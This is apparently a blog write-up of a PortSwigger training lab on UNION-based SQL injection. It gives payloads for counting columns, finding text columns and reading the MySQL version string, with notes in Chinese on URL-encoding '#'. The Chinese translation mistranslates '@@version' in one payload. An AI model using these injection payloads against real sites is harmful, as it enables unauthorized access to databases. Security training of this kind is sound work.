 ```yaml
---
layout: post
title: "SQL injection attack, querying the database type and version on MySQL and Microsoft"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_SQL_Injection
author: ""
tags: ['PortSwigger_Lab', 'SQL_Injection']
---
```






# SQL injection attack, querying the database type and version on MySQL and Microsoft



```

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#### Hint

You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

#### Solution

1.  Use Burp Suite to intercept and modify the request that sets the product category filter.



2.  Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
`'+UNION+SELECT+'abc','def'#`




3.  Use the following payload to display the database version:
`'+UNION+SELECT+@@version,+NULL#`




本實驗室在產品類別過濾器中包含一個 SQL 注入漏洞。 您可以使用 UNION 攻擊從注入的查詢中檢索結果。

解決實驗，顯示數據庫版本字符串。

暗示
您可以在我們的 SQL 注入備忘單上找到一些有用的有效載荷。


解決方案
使用 Burp Suite 攔截和修改設置產品類別過濾器的請求。


確定查詢返回的列數以及哪些列包含文本數據。 驗證查詢是否返回兩列，這兩列都包含文本，在 category 參數中使用如下所示的有效負載：
'+UNION+SELECT+'abc','def'#


使用以下負載顯示數據庫版本：
'+UNION+SELECT+@@版本,+NULL#

```

GET 
```
category=Gifts
```


NULL 測試UNION 注入有多少欄位

### 這裡有坑  !!!
```
//#號 如果輸入在URL 會被當錨，如果不想要被前端當成錨，進不了後端，你把它 URL encode =  %23
//但這個 #號 在MySQL 是註釋的意思
' UNION SELECT NULL,NULL#

' UNION SELECT NULL,NULL%23
```


哪個欄位是否為字串型態: 兩個都是
```
' UNION SELECT 'aaa','bbb'%23
```

cheatsheet 棒棒 給 version payload 
https://portswigger.net/web-security/sql-injection/cheat-sheet


```
' UNION SELECT @@version,'bbb'%23
```


成功。



